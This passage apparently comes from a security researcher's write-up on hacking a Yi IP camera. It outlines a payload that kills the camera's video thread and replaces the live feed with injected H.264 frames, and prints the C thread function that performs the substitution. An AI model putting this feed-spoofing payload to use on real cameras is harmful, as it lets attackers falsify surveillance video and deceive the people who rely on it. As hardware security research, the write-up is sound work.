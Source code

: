 With these functions in mind, the payload strategy became as follows:
- Kill off the existing thread by setting **yi_av.ctrl.vi_run_flag** to 0
- Call **yi_video_deinit** to reset everything to a clean state
- Execute our function that will essentially run a slightly modified **yi_video_init** function, but the thread will be created with a function that we control
- The thread function will be a modified **yi_live_video_thread** that sends whatever data we want instead of the result of **ak_venc_get_stream**

I'll omit the majority of the code as its pretty ugly, and most of it is very similar to the functions above (and struct definitions), but here is the thread function that does the heavy lifting:

```
-c
// this is basically what the binary does, except we replace the data and length
while (arg->run_flag != 0){
	// set switchFileTime global
	time_t current_time = get_time((time_t) 0x0);
	uint32_t* g_switchFileTime_addr = (uint32_t*) 0x4b98d8;
	*g_switchFileTime_addr = current_time;
	  
	// get fps for h264 buffer stuff
	uint32_t fps = ak_venc_get_fps(arg->venc_handle);
  
	// fetch the current stream to steal ts and sequence number
	if (ak_venc_get_stream(arg->stream_handle, &stream) == 0){
		my_stream.ts = stream.ts;
		my_stream.seq_no = stream.seq_no;
  
		// add to the h264 stream buffer
		platform_streamer_buffer_h264(1, my_stream.frame_type, stream.ts, fps, 0x20, my_stream.data, my_stream.len);
		ak_venc_release_stream(arg->stream_handle, &stream);
		mssleep(5);
	} else {
		mssleep(10);
	}
}
```

You can see that I am basically just spamming I frames at the camera that I control. The stream bytes were generated by using **ffmpeg** to convert png's to a h264 file, and then extracting the frame from there. So does it work?
